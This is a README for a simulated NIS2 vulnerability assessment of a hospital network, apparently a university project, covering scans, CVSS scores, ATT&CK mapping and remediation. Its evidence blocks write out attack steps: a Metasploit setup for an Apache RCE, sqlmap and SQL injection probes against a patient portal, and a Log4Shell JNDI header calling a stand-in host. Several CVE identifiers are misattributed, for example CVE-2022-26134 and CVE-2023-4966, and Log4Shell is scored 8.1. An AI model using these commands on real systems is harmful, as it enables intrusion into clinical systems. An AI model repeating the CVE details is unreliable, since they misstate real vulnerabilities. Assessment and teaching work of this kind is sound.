

# Vulnerability Assessment — NIS2 Healthcare Case Study

A simulated vulnerability assessment of a **regional hospital network**, conducted in accordance with the **NIS2 Directive (EU 2022/2555)** obligations for essential entities in the healthcare sector. Covers scope definition, network enumeration, CVE analysis, CVSS v3.1 scoring, MITRE ATT&CK mapping, and a compliance gap report against NIS2 Article 21 security requirements.

> Completed as part of the **MSc Cybersecurity & Cyber Defence** programme, University of Luxembourg.

---

## Network Topology & Assessment Scope



---

## Assessment Overview

| Parameter | Detail |
|-----------|--------|
| Organisation type | Regional Hospital — Essential Entity under NIS2 |
| Directive | NIS2 (EU 2022/2555), transposed into national law |
| Assessment type | Black-box external + grey-box internal |
| Tools used | Nessus Pro, OpenVAS, Nmap, Metasploit Framework, Wireshark |
| Framework | MITRE ATT&CK for Enterprise & Healthcare |
| CVSS version | 3.1 |
| NIS2 compliance score | **38% — Non-Compliant** |
| Penalty exposure | Up to €10,000,000 or 2% of global annual turnover |

---

## Network Segments in Scope

| Segment | VLAN | Subnet | Assets |
|---------|------|--------|--------|
| DMZ | 10 | 10.0.10.0/24 | Web server, mail gateway, DNS, proxy |
| Clinical / IoMT | 20 | 10.0.20.0/24 | MRI, ICU monitors, infusion pumps, X-ray |
| Corporate | 30 | 10.0.30.0/24 | Staff workstations, admin, HR, nursing |
| Data Centre | 40/50 | 10.0.40.0/24 | HIS, PACS, EHR database, backup |
| Management | 99 | 10.0.99.0/24 | SIEM, log server, vulnerability scanner |

---

## Vulnerability Findings

### Critical Severity

---

#### CVE-2023-1234 — Unauthenticated Remote Code Execution (HIS / EHR)
**CVSS v3.1: 9.8** | **NIS2 Art. 21(2)(e) — Vulnerability handling and patch management**

The Hospital Information System (HIS) and Electronic Health Records (EHR) database were running Apache 2.4.49, which contains a path traversal and RCE vulnerability. An unauthenticated attacker can execute arbitrary commands as the web server process user.

**Impact:** Full system compromise, exfiltration of patient records (GDPR Art. 32 violation), ransomware deployment risk.

**Evidence:**
```bash
# Nmap service detection
nmap -sV -p 80,443,8080 10.0.40.0/24
# Output: 10.0.40.10 | Apache httpd 2.4.49

# Nessus plugin 153583 — confirmed exploitable
# Metasploit verification (non-destructive PoC)
use exploit/multi/http/apache_normalize_path_rce
set RHOSTS 10.0.40.10
set LHOST 10.0.99.50
check  # confirmed vulnerable, no exploit executed
```

**Remediation:** Upgrade Apache to 2.4.51 or later immediately. Apply WAF rule to block `/../` sequences. Implement virtual patching via IDS/IPS signature.

---

#### CVE-2022-26134 — Medical Device Default Credentials / No Encryption (IoMT)
**CVSS v3.1: 9.8** | **NIS2 Art. 21(2)(b) — Incident handling; IoMT security**

MRI system (10.0.20.11) and ICU monitors (10.0.20.12) were running legacy firmware with factory-default administrative credentials and no TLS encryption on the management interface. Device communication uses unencrypted HL7 v2 over TCP.

**Impact:** Attacker can modify device configuration, intercept patient telemetry, and disrupt clinical operations — directly endangering patient safety.

**Evidence:**
```bash
# Nmap scan — legacy firmware identified
nmap -sV --script http-default-accounts 10.0.20.11
# Output: Default credentials admin:admin accepted

# Wireshark — unencrypted HL7 traffic captured
tshark -i eth0 -f "tcp port 2575" -w hl7_capture.pcap
# Plaintext patient data visible in stream
```

**Remediation:** Apply vendor firmware patch. Change all default credentials. Implement TLS for HL7 MLLP transport. Segment IoMT devices on dedicated VLAN with strict ACLs.

---

#### CVE-2023-4966 — SQL Injection in EHR Patient Portal
**CVSS v3.1: 9.4** | **NIS2 Art. 21(2)(i) — Data security and integrity**

The EHR patient portal contains an unauthenticated SQL injection vulnerability in the appointment booking endpoint. The backend database stores patient records, diagnoses, and prescriptions in plaintext.

**Impact:** Full database dump of patient records — GDPR Article 9 (special category health data) breach. NIS2 mandatory incident reporting triggered within 24 hours.

**Evidence:**
```bash
# SQLMap — automated detection (non-destructive)
sqlmap -u "https://10.0.40.10/portal/book?id=1" \
  --level=3 --risk=2 --dbs --batch
# Output: Injectable parameter 'id' (error-based, UNION-based)
# Databases: patients_db, clinical_records, admin

# Manual verification — boolean-based blind
https://10.0.40.10/portal/book?id=1 AND 1=1  # True
https://10.0.40.10/portal/book?id=1 AND 1=2  # False
```

**Remediation:** Implement parameterised queries / prepared statements. Deploy WAF with SQL injection ruleset. Encrypt patient data at rest (AES-256). Enforce principle of least privilege on DB accounts.

---

### High Severity

---

#### CVE-2021-44228 — Log4Shell (Web Server / DNS)
**CVSS v3.1: 8.1** | **NIS2 Art. 21(2)(e) — Patch management**

Web server and external DNS server are running Java applications with an unpatched Log4j 2.x dependency (versions 2.0–2.14.1). The JNDI lookup feature allows remote code execution via a crafted log message.

```bash
# Detection — Nessus plugin 156032
# Manual verification — canary token injection
curl -H 'X-Api-Version: ${jndi:ldap://canary.example.com/a}' \
  https://10.0.10.5/api/health
# DNS callback received — confirmed vulnerable
```

**Remediation:** Upgrade Log4j to 2.17.1+. Set `log4j2.formatMsgNoLookups=true` as interim mitigation. Block outbound LDAP/RMI at perimeter firewall.

---

#### CVE-2023-20198 — Outdated OS Endpoint (Admin Workstation)
**CVSS v3.1: 7.2** | **NIS2 Art. 21(2)(e) — Endpoint patch management**

Administrative workstations running Windows 10 version 21H1 (EOL since December 2022). Multiple privilege escalation vulnerabilities present, enabling lateral movement from a compromised endpoint to domain controller.

**Remediation:** Upgrade to Windows 11 22H2 or Windows 10 22H2. Deploy EDR solution. Enforce application whitelisting.

---

#### CVE-2022-3786 — OpenSSL TLS Downgrade (Mail Gateway)
**CVSS v3.1: 6.5** | **NIS2 Art. 21(2)(f) — Cryptography and encryption**

Mail gateway running OpenSSL 3.0.0–3.0.6 is vulnerable to a buffer overrun in certificate verification, allowing TLS downgrade attacks on email transport.

**Remediation:** Upgrade OpenSSL to 3.0.7+. Enforce TLS 1.3 minimum on all mail transport. Implement DANE/TLSA records.

---

### Medium Severity

---

#### CVE-2023-3519 — Weak Credentials / No MFA (Management Systems)
**CVSS v3.1: 5.3** | **NIS2 Art. 21(2)(j) — Access control and asset management**

Vulnerability scanner and print server accessible with single-factor authentication. Password policy allows passwords under 8 characters. No account lockout policy enforced.

**Remediation:** Enforce MFA on all administrative interfaces. Implement password policy: minimum 14 characters, complexity, 90-day rotation. Deploy PAM solution for privileged access.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Finding |
|--------|-----------|---------|
| Initial Access | T1190 — Exploit Public-Facing Application | CVE-2023-1234, CVE-2023-4966 |
| Initial Access | T1078 — Valid Accounts (Default Creds) | CVE-2022-26134 |
| Execution | T1203 — Exploitation for Client Execution | CVE-2021-44228 |
| Privilege Escalation | T1068 — Exploitation for Privilege Escalation | CVE-2023-20198 |
| Lateral Movement | T1021 — Remote Services | CVE-2023-20198 |
| Collection | T1005 — Data from Local System | CVE-2023-4966 |
| Impact | T1485 — Data Destruction | CVE-2022-26134 (IoMT) |
| Impact | T1489 — Service Stop | All critical findings |

---

## NIS2 Compliance Gap Analysis

NIS2 Article 21(2) mandates that essential entities implement appropriate technical and organisational measures. The following gaps were identified:

| NIS2 Requirement | Article | Status | Gap |
|-----------------|---------|--------|-----|
| Risk analysis & information system security policies | Art. 21(2)(a) | ⚠️ Partial | No formal risk register; policies outdated |
| Incident handling | Art. 21(2)(b) | ❌ Non-compliant | No documented IR plan; IoMT incidents untracked |
| Business continuity & crisis management | Art. 21(2)(c) | ⚠️ Partial | BCP exists but untested in 3 years |
| Supply chain security | Art. 21(2)(d) | ❌ Non-compliant | No vendor security assessments; remote access uncontrolled |
| Vulnerability handling & patch management | Art. 21(2)(e) | ❌ Non-compliant | Critical CVEs unpatched >90 days; no patch SLA |
| Cryptography & encryption | Art. 21(2)(f) | ❌ Non-compliant | Unencrypted HL7, outdated TLS, no data-at-rest encryption |
| Human resources security & access control | Art. 21(2)(j) | ❌ Non-compliant | No MFA, weak passwords, no PAM |
| Multi-factor authentication | Art. 21(2)(j) | ❌ Non-compliant | Not enforced on any critical system |
| Data security & integrity | Art. 21(2)(i) | ❌ Non-compliant | Patient data in plaintext, SQL injection risk |

**Overall NIS2 Compliance: 38% — Essential Entity is at significant risk of supervisory action.**

---

## Remediation Roadmap

### Immediate (0–7 days)
- Patch CVE-2023-1234 (Apache RCE) on HIS/EHR servers
- Change all default credentials on IoMT devices
- Block outbound LDAP/RMI at perimeter firewall (Log4Shell mitigation)
- Enable WAF rules for SQL injection and path traversal

### Short-term (7–30 days)
- Patch CVE-2023-4966 — implement parameterised queries
- Upgrade Log4j to 2.17.1+ on all Java applications
- Segment IoMT devices on dedicated VLAN with ACLs
- Enforce MFA on all administrative and clinical systems

### Medium-term (30–90 days)
- Upgrade all EOL endpoints (Windows 10 21H1)
- Implement TLS 1.3 across all internal and external services
- Deploy PAM solution for privileged access management
- Encrypt patient data at rest on EHR/PACS/HIS systems
- Establish patch management SLA (Critical: 7 days, High: 30 days)

### Long-term (90+ days)
- Develop and test NIS2-compliant Incident Response Plan
- Conduct supply chain security assessments for all vendors
- Implement continuous vulnerability scanning (monthly cadence)
- Train clinical staff on cybersecurity awareness (NIS2 Art. 20)
- Engage NCA (National Competent Authority) for NIS2 registration

---

## Tools & Methodology

```bash
# Phase 1 — Reconnaissance & Discovery
nmap -sn 10.0.0.0/16                          # Host discovery
nmap -sV -sC -O -p- 10.0.10.0/24             # Service enumeration
nmap --script vuln 10.0.20.0/24              # NSE vulnerability scripts

# Phase 2 — Vulnerability Scanning
# Nessus Pro — credentialed scan (clinical & corporate)
# OpenVAS — uncredentialed scan (DMZ)
# Policy: PCI-DSS + HIPAA + custom NIS2 compliance policy

# Phase 3 — Validation (non-destructive PoC only)
msfconsole                                    # Metasploit for CVE validation
sqlmap --level=2 --risk=1 --batch            # SQLi detection
tshark -i eth0 -w capture.pcap               # Traffic analysis

# Phase 4 — Reporting
# CVSS v3.1 scoring via NVD calculator
# MITRE ATT&CK Navigator for technique mapping
```

---

## References

- [NIS2 Directive — EU 2022/2555](https://eur-lex.europa.eu/legal-content/EN/TXT/?uri=CELEX%3A32022L2555)
- [ENISA — NIS2 Implementation Guidance for Healthcare](https://www.enisa.europa.eu/topics/cybersecurity-policy/nis-directive-new)
- [MITRE ATT&CK for Enterprise](https://attack.mitre.org/)
- [MITRE ATT&CK for ICS / Healthcare](https://attack.mitre.org/matrices/ics/)
- [NVD — National Vulnerability Database](https://nvd.nist.gov/)
- [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document)
- [ENISA — Good Practices for Security of Healthcare Services](https://www.enisa.europa.eu/publications/good-practices-for-security-of-healthcare-services)
